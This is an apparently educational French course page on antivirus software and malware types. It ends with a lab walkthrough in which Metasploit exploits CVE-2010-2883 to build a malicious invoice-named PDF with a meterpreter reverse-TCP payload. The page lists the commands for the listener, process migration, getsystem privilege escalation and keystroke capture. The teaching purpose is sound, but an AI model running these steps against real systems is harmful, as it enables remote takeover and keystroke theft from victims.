 # Antivirus et PDF malicieux

## Antivirus

Un antivirus est un logiciel qui détecte du code malicieux et l'empêche d'être exécuté.

L'approche traditionnelle d'un anti-virus est la détection via les signatures du virus.

Si l'antivirus en est capable, il va détruire le virus. S'il n'est pas capable de le détruire, il va mettre en quarantaine le fichier contenant le virus.

Une autre approche de certains antivirus est la détection par événements louches. Quand un programme réagit anormalement, l'antivirus peut lever une alerte. Ex: Ouvrir un PDF et le logiciel essaie d'écrire dans des répertoires systèmes.

### Antivirus en entreprise

En entreprise, vous aurez à gérer l'antivirus pour l'ensemble des actifs. Les solutions professionnelles aide avec une console installée sur un serveur, qui permet de déployer l'antivirus, monitorer tous les postes et les mettre à jour constamment.

Ex: [Trendmicro Apex One](https://www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html)


## Types de code malicieux

### Virus

Un virus est du code qui se propage et peut causer du tord à un ordinateur. Son mode de propagation est via des applications infectées.

### Ver (_worm_)

Un ver est du code malicieux qui se propage à travers un réseau via un service, tel que le partage de fichier de Windows.

### Bombes logiques (_logic bombs_)

Du code malicieux qui est inactif sur un système et attend un événement pour déclencher une attaque, souvent pour détruire des systèmes ou des données.

### Cheval de Troie (_Trojan horse_)

Logiciel banal contenant du code malicieux. Souvent un logiciel gratuit (ou un jeu) que les victimes installent sans se rendre compte qu'ils installent un logiciel malveillant, comme un logiciel espion.

### Rançongiciel (_ransomware_)

Logiciel qui crypte le poste de travail et demande un paiement pour décrypter celui-ci.

### Palmares

Voici les virus et vers les plus connus de tous les temps :

1. CryptoLocker : Ce virus crypte les ordinateurs ciblés et demande une rançon pour décrypter.
2. ILOVEYOU : Transmis par courriel avec comme sujet I Love You. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
3. MyDoom : Aussi transmis par courriel, en 2004 on estimait que 25% de tous les courriels envoyés étaient infectés par ce virus.
4. Anna Kournikova : Transmis par courriel avec une fichier qui se faisait passer pour une photo de la joueuse de tennis. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
5. Slammer : Un ver qui en 15 minute à infecté tellement de systèmes que ça crashé l'Internet.
6. Stuxnet : Créé par le gouvernement américain, ce virus a été créé pour détruire les centrifugeuses du programme nucléaire d'Iran.

## Attaque du client avec un PDF malicieux

Les pirates vont souvent combiner une attaque avec des éléments d'ingénierie sociale. Si l'attaquant a des adresses de courriel valides, il peut créer un site web ou un fichier contenant du code malicieux pour prendre le contrôle de l'ordinateur de la victime.

Ce document va faire la démonstration d'une façon de faire facile pour créer un PDF malicieux à l'aide de Metasploit.

Pour réussir une attaque, il est important d'en savoir le plus possible sur notre cible. Dans le cadre de cette démonstration, la cible est la VM Windows XP sur laquelle est installée une version spécifique d'Adobe Reader (9.3.4).

Pour commencer, il faut trouver une faille à exploiter. Une simple recherche dans Google me donne ce site qui explique quel CVE correspond à la version d'Adobe qui est ciblée.

[CVE for Adobe Reader 9.3.4](https://www.cvedetails.com/metasploit-modules/version-96958/Adobe-Acrobat-Reader-9.3.4.html)

On peut voir le CVE 2010-2883.

Faison une recherche dans Metasploit :

`search cve:2010-2883`

Ça donne le module : **exploit/windows/fileformat/adobe_cooltype_sing**

Ce module permet de créer un PDF qui permet d'exécuter du code dû à un bogue de dépassement de cache.

Utilisons donc ce module :

`use exploit/windows/fileformat/adobe_cooltype_sing`

Il faut donner un nom à notre PDF. Disons que c'est une facture :

`set FILENAME /tmp/facture.pdf`

Cherchons un _payload_ à insérer dans le PDF. Dans notre scénario, nous voulons prendre le contrôle du système de la victime avec **Meterpreter**.

`search type:payload platform:windows meterpreter`

Un des modules à l'air intéressant : **payload/windows/meterpreter/reverse_tcp**. Avec ce module, le système de la victime essaiera de se connecter à notre Kali via TCP lors de l'ouverture du PDF.

`set PAYLOAD windows/meterpreter/reverse_tcp`

Ce module a quelques paramètres :

L'adresse du serveur de commande (notre Kali) :

`set LHOST 192.168.40.4`

Le port d'écoute :

`set LPORT 4455`

Une fois configuré, créons le PDF :

`exploit`

Avant d'envoyer le PDF à notre victime (dans ce cas-ci, on le copie sur la VM de Windows XP), il faut ouvrir l'écoute sur le port 4455.

`use exploit/multi/handler`

`set PAYLOAD payload/windows/meterpreter/reverse_tcp`

`set LPORT 4455`

`set LHOST 192.168.40.4`

`exploit`

Le système attend une connexion de la victime.

Quand la victime ouvre le PDF, notre système affiche ceci, nous sommes dans le système :

![09-Metasploit-ouverture-session](../images/2020/06/09-metasploit-ouverture-session.png)

C'est le moment d'agir vite. Pour la victime, Adobe Reader semble gelé. C'est que Meterpreter roule dans le processus d'Adobe Reader. Il faut rapidement migrer vers un autre processus système pour éviter que la victime termine le processus.

Regardons les processus actifs :

`ps`

Important de prendre un processus qui est là en permanence sous le nom de l'utilisateur.

`migrate -P 1216`

Une fois la commande terminée, Adobe Reader peut être fermé, nous resterons actifs.

Pour avoir les droits administrateurs de la machine :

`getsystem`

Si nous voulons copier tout ce qui est écrit au clavier :

`keyscan_start`

Pour voir ce qui a été capturé :

`keyscan_dump`

## Testez vos connaissances  

[Petit quiz sur les antivirus et pdf malicieux](https://forms.office.com/r/BP5zBu2nDM)  
